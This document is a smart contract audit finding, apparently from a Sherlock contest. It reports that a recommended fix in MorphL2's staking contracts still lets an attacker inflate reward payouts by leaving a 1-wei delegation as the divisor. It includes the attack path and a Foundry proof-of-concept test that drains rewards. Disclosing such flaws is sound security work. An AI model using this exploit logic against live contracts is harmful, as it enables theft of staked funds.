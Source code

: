 Polished Inky Stork

Medium

# Delegators may still be able to steal funds.

### Summary

**The code recommendation for the “Delegators can steal funds” issue from Trail of Bits, does not solve the problem perfectly. It's still leaves the “Delegators can steal funds” issue.**

### Root Cause

In the Trail of Bits audit report that reported the “Delegators can steal funds” issue, they provided a recommendation code to fix it.
And the sponsor implemented it accordingly in [L389](https://github.com/sherlock-audit/2024-08-morphl2/blob/98e0ec4c5bbd0b28f3d3a9e9159d1184bc45b38d/morph/contracts/contracts/l2/staking/L2Staking.sol#L389)
```solidity
 // notify undelegation to distribute contract
        IDistribute(DISTRIBUTE_CONTRACT).notifyUndelegation(
            delegatee,
            _msgSender(),
            effectiveEpoch,
=>       stakerDelegations[delegatee],
            delegators[delegatee].length()
        );
```
The `stakerDelegations[delegatee]` parameter in the `notifyUndelegation` parameter above comes from `stakerDelegations[delegatee] -= undelegation.amount;` 

Let's assume there is a `delegatee` named “delegateRich”, then andi and john do a “delegateStake” to `delegateRich` address of `1e18` each. Thus, the value of `stakerDelegations[delegatee]` is now `2e18`.

Then if jhon performs an “undelegateStake”, the value of `stakerDelegations[delegatee]` will be 1e18.

**Then, how did the issue of “Delegators can steal funds” still occur?**

Alright, let's turn andi and jhon into attackers.
- attacker (account1) performs “delegateStake” to address `delegateRich` with 1 wei.
- attacker (account2) performs “delegateStake” to address `delegateRich` with `1e18`.
- Thus, the value of `stakerDelegations[delegatee]` is now `1e18` + 1 wei.
- Then, the attacker (account2) performs “undelegateStake”, the value of `stakerDelegations[delegatee]` will be 1 wei.

As a result, attacker(account2) can steal funds by perform `L2Staking::claimReward` because the calculation on `Distribute::_claim` on [L343-345](https://github.com/sherlock-audit/2024-08-morphl2/blob/98e0ec4c5bbd0b28f3d3a9e9159d1184bc45b38d/morph/contracts/contracts/l2/staking/Distribute.sol#L343-L345) will be like this:
```solidity
 reward += (distributions[delegatee][i].delegatorRewardAmount * 1e18) / 1;
```
Q: Why the `delegationAmount` is 1 wei on calculation reward?
A: Since `stakerDelegations[delegatee]` is 1 wei when the attacker (account2) performs “undelegateStake”, the [delegationAmount] (https://github.com/sherlock-audit/2024-08-morphl2/blob/98e0ec4c5bbd0b28f3d3a9e9159d1184bc45b38d/morph/contracts/contracts/l2/staking/Distribute.sol#L130) will be 1 wei, which is the amount of the attacker (account1).


### Internal pre-conditions
- When first deploying/launching the L2Staking and Distribute contract or no one has yet become a “delegator” at the “delegatee” address.
- Only the attacker becomes a delegator at that "delegatee" address. This means that only the attacker performs the `delegateStake` function at that "delegatee" address. The attacker can create multiple accounts to manipulate this from sponsor, such as having about 10 attacker accounts that perform `delegateStake` at that "delegatee" address and 1 account that only performs `delegateStake` for 1 wei.



### Attack Path
- When the “delegatee” address has no delegator, the attacker sees this and then creates multiple accounts to manipulate the sponsor and perform “delegateStake”, each attacker account has a different amount of “delegateStake” and only one performs “delegateStake” for 1 wei. 
- Then, some of the attacker accounts perform “undelegateStake”, except for the attacker account that performs “delegateStake” for 1 wei. The value of `stakerDelegations[delegatee]` will be 1 wei.

As a result, attacker can steal funds by perform `L2Staking::claimReward` 

### Impact

Attacker can steal funds on distribute contract.

### PoC
- Paste the code below into `L2Staking.t.sol`
- run with `forge test -vv --match-test test_delegatorCanDrainFunds`
```solidity
function test_delegatorCanDrainFunds() public {
        sequencer.getSequencerSet2Size();
        address attacker = address(0x123);
        address attacker1 = address(0x231);

        hevm.startPrank(multisig);

        morphToken.transfer(attacker, morphBalance);
        morphToken.transfer(attacker1, morphBalance);
        hevm.stopPrank();

        hevm.startPrank(attacker);
        morphToken.approve(address(l2Staking), type(uint256).max);
        l2Staking.delegateStake(firstStaker, 5 ether);
        hevm.stopPrank();

        hevm.startPrank(attacker1);
        morphToken.approve(address(l2Staking), type(uint256).max);
        l2Staking.delegateStake(firstStaker, 1); // delegateStake 1 wei
        hevm.stopPrank();

        uint256 time = REWARD_EPOCH;
        hevm.warp(time);

        // reward starting
        // rewardStartTime = 86400
        // block.timeStamp >= rewardStartTime
        // candidateNumber > 0
        hevm.prank(multisig);
        l2Staking.startReward();

        // staker set commission
        hevm.prank(firstStaker);
        l2Staking.setCommissionRate(1);

        // *************** epoch = 1 ******************** //
        time = REWARD_EPOCH * 2;
        hevm.warp(time);

        uint256 blocksCountOfEpoch = REWARD_EPOCH / 3;
        hevm.roll(blocksCountOfEpoch * 2);
        hevm.prank(oracleAddress);
        record.setLatestRewardEpochBlock(blocksCountOfEpoch);
        _updateDistribute(0);

        // *************** epoch = 2 ******************** //
        time = REWARD_EPOCH * 3;
        hevm.roll(blocksCountOfEpoch * 3);
        hevm.warp(time);
        _updateDistribute(1);

        hevm.startPrank(attacker);
        l2Staking.undelegateStake(firstStaker);
        hevm.stopPrank();

        uint256 TotalstakerAmount = l2Staking.stakerDelegations(firstStaker);
        assertEq(TotalstakerAmount, 1); // delegationAmount now it's a amount of attacker1

        //  reward += (distributions[delegatee][i].delegatorRewardAmount * distributions[delegatee][i].amounts[delegator]) /
        //       TotalstakerAmount;

        uint256 attackerReward = distribute.queryUnclaimed(firstStaker, attacker);
        emit log_uint(attackerReward);
        
        hevm.startPrank(attacker);
        uint256 balanceBefore = morphToken.balanceOf(attacker);
        l2Staking.claimReward(firstStaker, 1);
        uint256 balanceAfter = morphToken.balanceOf(attacker);

        assertEq(balanceAfter, balanceBefore + attackerReward);
        hevm.stopPrank();
    }

```
### Mitigation

It must be verified that no delegator has made a `delegateStake` with an amount of 1 wei or the sponsor must be the first delegator.